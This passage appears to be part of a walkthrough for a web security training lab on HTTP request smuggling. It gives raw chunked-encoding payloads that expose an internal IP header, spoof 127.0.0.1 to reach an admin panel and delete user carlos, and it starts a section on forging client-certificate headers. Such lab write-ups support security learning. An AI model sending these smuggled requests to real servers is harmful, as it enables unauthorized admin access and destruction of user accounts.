 ```
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 200
    Connection: close

    search=test
    ```

4. The second response should contain "Search results for" followed by the start of a rewritten HTTP request.
5. Make a note of the name of the X-*-IP header in the rewritten request, and use it to access the admin panel:

    X-PyerIB-Ip: 109.72.10.228

    ```
    POST / HTTP/1.1
    Host: acb31fac1ef8ea1dc02972f900e200ff.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 143
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    X-abcdef-Ip: 127.0.0.1 = change it to X-PyerIB-Ip
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 10
    Connection: close

    x=1
    ```

6. Using the previous response as a reference, change the smuggled request URL to delete the user carlos:

    ```
    POST / HTTP/1.1
    Host: acb31fac1ef8ea1dc02972f900e200ff.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 166
    Transfer-Encoding: chunked

    0

    GET /admin/delete?username=carlos HTTP/1.1
    X-PyerIB-Ip: 127.0.0.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 10
    Connection: close

    x=1
    ```

## Bypassing client authentication

The component that authenticates the client typically passes the relevant details from the certificate to the application or back-end server via one or more non-standard HTTP headers. For example, front-end servers sometimes append a header containing the client's CN to any incoming requests:

```
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos